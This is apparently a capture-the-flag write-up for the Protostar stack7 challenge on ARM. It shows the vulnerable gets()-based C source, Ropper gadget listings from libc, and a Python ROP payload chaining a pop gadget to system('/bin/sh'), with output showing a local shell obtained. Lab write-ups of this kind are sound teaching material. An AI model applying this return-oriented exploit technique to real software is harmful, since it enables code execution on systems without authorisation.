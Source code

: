 ## Protostar ARM ./stack7


#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

#define JUMP_GUARD 71

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);
  /**
  I replaced this piece of code because doesn't work in ARM neither changing
  the value of our stack (0x7efdf000)

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  The following lines of code are added in order to perform a trivial check and don't allow to jump in the stack

  */
  //printf ("Jump to : %x%x%x%x\n", buffer[JUMP_GUARD], buffer[72], buffer[73], buffer[74]);
  if( buffer[JUMP_GUARD] >= 0x7e && buffer[JUMP_GUARD] <=0x7f ) {
     printf("bzzzt... don't jump to the stack\n");
     _exit(1);
   }

  printf("got path %s\n", buffer);
  return strdup(buffer);

}

int main(int argc, char **argv)
{
  getpath();
}
```

#### _Let's start_

This challenge is pretty similar to the previous one, the only difference is the return, this time our vulnerable function returns `strdup()`.


As we can see the stack is not executable `0x7efdf000 0x7f000000 0x00000000 rw- [stack]` and `libc` starts at `0x76e6b000`.


The idea to solve the challenge is to write into the stack, addresses of instructions containted in `libc` in order to execute our code flow and obtain a shell. This technique is called `ROP` (Returned Oriented Programming), which is another technique to bypass `NX`.
We will use [Ropper](https://github.com/sashs/Ropper) and we will look for gadgets in `libc`.
Practically, in this small solution, we will replace the task performed from `nrand48`, from the previous challenge, with a series of instructions.

Let's summarise the idea in few steps:
1. find a gadget which allows us to set some values in registers
2. adapt the stack in order to "satisfy the gadgets" (we will see it in practice)
3. set a register with the address of the function `system()`
4. jump to the register set in the previous step

We we look for one or more instructions which allow us to get some values from the stack and store them into registers in order to accomplish our code flow.
The best candidate to solve this challenge seems to be a `POP` instruction.
According with the [ARM documentation](http://www.keil.com/support/man/docs/armasm/armasm_dom1361289885303.htm), a `POP` instruction is a synonym for `LDMIA sp! reglist`.

__*Example:*__  
`pop {rX,rY,rZ}` = `LDMIA sp!, {rX,rY,rZ}`  
Load registers `rX` , `rY` , `rZ`  with values starting from memory location with address given by `sp` . After each transfer increment `sp` by 4 and update `sp` at the end of the instruction.

We can use Ropper to find a `POP` instruction in `libc` to support us.

```code
pi@raspberrypi:~/protostar/stack7 $ ropper
(ropper)> file /lib/arm-linux-gnueabihf/libc-2.28.so    
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(libc-2.28.so/ELF/ARM)> search /1/ pop
[INFO] Searching for gadgets: pop
[INFO] File: /lib/arm-linux-gnueabihf/libc-2.28.so
0x0002bd40: pop {fp}; bx r3;
0x000fde98: pop {lr}; bx r3;
0x000da9c0: pop {r0, r1, r2, r3, ip, lr}; bx ip;
0x000791fc: pop {r0, r4, pc};
0x00119144: pop {r1, pc};
0x00119078: pop {r2, r3}; bx lr;
0x0006b8fc: pop {r4, lr}; bx r3;
0x00018164: pop {r4, pc};
0x00017a30: pop {r4, r5, lr}; bx r3;
0x0002c6dc: pop {r4, r5, pc};
0x00111d78: pop {r4, r5, r6, lr}; bx r2;
0x00061624: pop {r4, r5, r6, lr}; bx r3;
0x000170e0: pop {r4, r5, r6, pc};
0x0001790c: pop {r4, r5, r6, r7, pc};
0x00069084: pop {r4, r5, r6, r7, r8, lr}; bx r3;
0x000253b8: pop {r4, r5, r6, r7, r8, sb, sl, fp, lr}; bx r3;
0x0005e7e8: pop {r4, r5, r6, r7, r8, sb, sl, lr}; bx r1;
0x0008d42c: pop {r4, r5, r6, r7, r8, sb, sl, lr}; bx r3;
0x0006f9a0: pop {r4, r5, r6, r7, r8, sb, sl, pc}; blx r3;
0x0003b5f4: pop {r4, r5, r6, r7}; bx lr;
0x0002c29c: pop {r4, r5, r7, pc};
0x000cce7c: pop {r4, r5, r7}; bx lr;
0x0002b3d8: pop {r4, r5}; bx lr;
0x0002f07c: pop {r4, r6, r7, pc};
0x0002f61c: pop {r4, r7, pc};
0x0002c23c: pop {r7, pc};
0x0002f384: pop {r7}; bx lr;

(libc-2.28.so/ELF/ARM)>
```

Inspecting the results, the gadget `0x000791fc: pop {r0, r4, pc}`, seems to be a good candidate because in `r0` we will set the address of `'/bin/sh'`, about `r4` we don't care (we will set a value just to fill it) and in `pc` we will set the address of the `system()`.

According with the gadget found and what we read before about POP instruction, our stack should be something like this:


|STACK        |  Note           |
| :-------------: | :-------------: |
|_0x000791fc_| _address of our gadget_  |
|_0x76f96b73_| _`/bin/sh` address_  -> `r0`|
| _fill_ | 'BBBB' -> `r4`|
| _0x76ea39c8_|_`system()` address_ -> `pc` |
| ... | ... |

Let's write a Python script with above mentioned

```python
import struct

padding = 'A' * 68
filler = 'BBBB'

g_1 = 0x000791fc
"""
 pop {r0, r4, pc};
"""

bash = 0x76f96b6c
system =  0x76ea39c8
libc_base = 0x76e6b000

payload = padding
payload += struct.pack('<I', libc_base + g_1)
payload += struct.pack ('<I', bash)
payload += filler
payload += struct.pack ('<I', system)


print payload
```
and try it

```code
pi@raspberrypi:~/protostar/stack7 $ python gadget.py > gadget
pi@raspberrypi:~/protostar/stack7 $ cat gadget - | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�A�vlk�vBBBB�9�v
pwd
/home/pi/protostar/stack7
```
__*Done :)*__

